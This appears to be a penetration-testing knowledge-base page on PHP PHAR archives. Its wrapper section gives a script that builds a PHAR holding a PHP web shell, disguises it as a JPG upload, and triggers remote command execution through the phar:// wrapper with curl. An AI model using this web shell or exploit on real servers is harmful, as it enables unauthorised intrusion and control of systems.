 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# PHAR

The PHAR file type is a PHP Archive format **designed to package an entire PHP application or library into a single distributable file**. Similar in concept to Java’s JAR or Python’s PEX, a PHAR bundles PHP scripts, metadata, and other resources in a compressed archive that **can be executed directly by the PHP interpreter**. This structure simplifies deployment by allowing developers to distribute one file instead of multiple dependencies, while still supporting compression methods such as gzip or bzip2 to reduce size.

Internally, a PHAR file consists of a manifest that describes the archive contents, followed by the actual files that make up the application. A stub script at the beginning of the archive is executed automatically when the PHAR is invoked, acting as the entry point of the application. Because PHAR files can embed executable PHP code, they provide powerful packaging capabilities but also carry inherent security risks. Improperly validated or untrusted PHAR files may be abused to deliver malicious code, particularly in scenarios where deserialization of PHAR metadata occurs.

## PHAR WRAPPER

The `phar://` wrapper can be used to achieve RCE. The script below can be compiled into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which can be then accessed using `/`:

{% code title="shell.php" %}
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```
{% endcode %}

{% code overflow="wrap" %}
```shell
# Compile the script into a phar file called 'shell.jpg'
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg

# Upload -> RCE (URL-encode '/' -> %2F)
curl http://<ip:port>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```
{% endcode %}
